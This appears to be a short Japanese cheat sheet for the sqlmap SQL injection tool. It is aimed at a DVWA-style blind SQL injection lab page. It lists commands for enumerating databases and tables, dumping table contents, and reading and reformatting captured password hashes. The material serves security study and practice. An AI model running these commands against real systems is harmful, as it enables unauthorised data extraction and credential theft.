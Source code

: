 # sqlmap

SQLインジェクションの脆弱性診断ツール

## コマンド

1. BurpSuiteでSQL操作時のリクエストを観測 GETリクエストとCookieでセッションIDを保持しているか。
2. help `sqlmap -h`
3. コマンド例 `sqlmap -u "http://URL/vulnerbilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=...; security=low"`
4. `--dump`でデータベースをダンプ可能
5. `--data`POSTで実行できる

``` shell
# help
sqlmap -h

# 脆弱性の診断 sqlmap -u "<エラーが出ないURL>"
sqlmap -u "http://URL/vulnerbilities/sqli_blind/?id=1&Submit=Submit#"
# データベース　スキーマの表示
sqlmap -u "http://URL/vulnerbilities/sqli_blind/?id=1&Submit=Submit#" --dbs
# テーブル一覧
sqlmap -u "http://URL/vulnerbilities/sqli_blind/?id=1&Submit=Submit#" -D <databasename> --tables
# テーブルダンプ
# dumpファイル ~/.local/share/sqlmap/output/<URL>/dump/webapp/<table_name>.csv
# password　hash　があった場合は一時的に cat /tmp/sqlmap*/sqlmap*.txt で確認できる。
sqlmap -u "http://URL/vulnerbilities/sqli_blind/?id=1&Submit=Submit#" -D <database_name> -T <table_name> --dump
# password hashのparse
sed -i 's/:\*/:/' /tmp/sqlmap*/sqlmap*.txt
cat /tmp/sqlmap*/sqlmap*.txt
```
